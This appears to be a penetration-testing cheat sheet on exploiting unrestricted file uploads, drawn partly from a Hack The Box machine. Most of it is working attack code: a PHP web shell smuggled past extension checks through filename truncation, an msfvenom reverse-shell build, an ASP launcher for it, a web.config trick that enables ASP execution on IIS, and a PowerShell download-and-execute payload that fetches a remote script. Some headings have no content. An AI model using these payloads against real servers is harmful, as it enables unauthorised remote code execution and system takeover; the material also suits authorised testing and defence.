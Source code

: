```yaml
---
title: Unrestricted File Upload
category: Web
order: 6
---
```


Different ways to upload files and get RCE.

# Identifies restrictions

## Extension

Shortening the size (falafel.htb):

Linux maximum 255 chars

```
touch $(python3 -c "print('A'*251+'.png')")
wget 'http://10.10.14.20:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.png'
```

Search the correct offset and upload again:

```
echo '<?php system($_GET["cmd"]);?>' > $(python3 -c 'print("A"*(236-4)+".php.png")')
wget 'http://10.10.14.20:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'
```

## Size

## Name

## Magic Number

## Content

# ASP

First we need to generate the reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o rev.exe
```

Finally upload the `rev.asp` and `rev.exe` files to get a connection shell back.

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\rev.exe",0,True)
%>
```

# .config RCE (IIS)

Uploading a `web.config` file to execute asp commands.

```
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
Response.write(1+1)
%>
```

If this works we can execute a reverse shell.

```
<%
Set objShell = CreateObject("WScript.Shell")
strCommand = "cmd /c powershell.exe -c IEX (New-Object Net.Webclient).downloadstring('http://<ip-addr>/shell.ps1')"
Set objShellExec = objShell.Exec(strCommand)
strOutput = objShellExec.StdOut.ReadAll()
WScript.StdOut.Write(strOutput)
WScript.Echo(strOutput)
%>
```
